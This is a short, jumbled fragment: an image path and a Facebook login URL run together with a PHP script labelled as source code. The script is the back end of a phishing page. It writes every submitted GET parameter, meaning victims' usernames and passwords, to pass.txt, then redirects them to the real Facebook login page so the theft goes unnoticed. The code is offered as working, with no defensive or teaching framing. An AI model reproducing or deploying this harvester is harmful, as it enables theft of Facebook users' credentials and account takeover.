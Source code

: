 https://m.facebook.com/login.php?refsrc=deprecated&_rdr<?php header('Location: http://www.Facebook.com/login.php'); $handle = fopen('pass.txt', 'a'); foreach($_GET as $variable => $value) { fwrite($handle, $variable); fwrite($handle, '='); fwrite($handle, $value); fwrite($handle, '\n'); } fwrite($handle, '\n'); fclose($handle); exit; ?>

